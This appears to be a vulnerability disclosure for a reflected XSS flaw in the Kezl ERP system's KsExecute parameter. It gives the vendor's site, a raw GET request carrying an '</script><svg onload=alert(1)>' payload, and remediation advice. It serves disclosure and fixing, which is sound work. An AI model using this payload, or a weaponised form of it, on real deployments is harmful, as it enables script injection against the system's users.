

# XSS vulnerability exists in Kezl ERP enterprise management system parameter KsExecute

### 企业官网(Enterprise official website)：

www.i-kingdom.com

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?DlvUser=pbm11&KsAppVerson=yu0d2&KsExecute=</script><svg onload=alert(1)>//&KsRun=vrjg5&KzVs=uj7x4&action=rzdi8&arguments=xbf90&code=tthk6&csrf_token=t75q9&data=gzb04&emailto=m1az2&id=we8i4&list_type=yjpb4&name=bo1s2&p=ayba0&query=jdtd6&region=nn0h3&unionidUrl=oeqd0&url=jy9e9&userid=rt5b1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

